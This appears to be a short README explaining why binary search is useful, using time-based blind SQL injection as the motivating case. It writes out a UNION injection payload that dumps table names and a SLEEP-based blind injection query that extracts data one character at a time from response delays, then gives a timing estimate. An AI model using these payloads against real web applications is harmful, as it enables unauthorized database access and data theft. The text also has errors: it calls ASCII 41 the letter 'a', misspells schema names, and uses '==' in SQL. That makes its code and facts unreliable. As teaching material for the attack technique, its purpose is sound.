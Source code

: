 # How is binary search useful?
Well, just by itself, it's not. The supplied example code already shows the secret_value, so there is absolutely no need to deduce it. But there are certain scenario's where one might not actually know the secret_value. Then this little algorithm gets radically more interesting. 

Consider this rather common sql query which is uses in many webapplications:

```sql
SELECT x,y FROM z WHERE z.id=10 
```

The value 10 is often supplied by the user. If this value is not properly validated or sanitized, any innocent bystander might make a typo in the URL-bar and turn the query into this:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
UNION SELECT 1,GROUP_CONCAT(table_name) 
  FROM information_scheme.tables 
  WHERE table_schema = database()
```

However, more often than not, the webpage doesn't directly show the results of the query directly. This oversight severely limits the websites' functionality. But it doesn't need to stay this way. Consider the following convoluted query carefully:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
AND IF( 
    ASCII(
        SUBSTRING(	
            (SELECT GROUP_CONCAT(table_name) 
	    FROM information_schema.tables 
	    WHERE table_scheme = database()),
	    1,1
        )
    ) == 41,
    SLEEP(5),
    NULL
)
```
The inner SELECT may return any string, in this case, a concatenation of all table names. Then the IF-statement tests if the first character of this string is equal to 41 (which is the ascii value for 'a'). If this is the case, the database will go sleepy-time for 5 seconds. But if the website is responding quickly, we guessed the first letter wrong. We monitor the response-times closely to see if we have guessed correctly.

Next we query for 'b', 'c', 'd', etc. And once we have a winner, we increment the SUBSTRING-index and continue with the second character, and so on and so forth, Until we know the entire string. This will ofcourse, take ages. Not only do we need to try all a-z and A-Z, but also a bunch of special characters (about 65 in total).

Lets make an optimistic calculation of the time needed for a SMS-message sized string (160 characters):
```
160 characters * ~32 wrong guesses * 1 sec per wrong guess =  5120 seconds
160 characters * 1 correct guess * 2 sec per correct guess = 320 seconds
5120 sec + 320 sec = 5420 sec = about 1.5 hour
```
My life is too short to wait for this. So I wrote binary search in the meanwhile.  
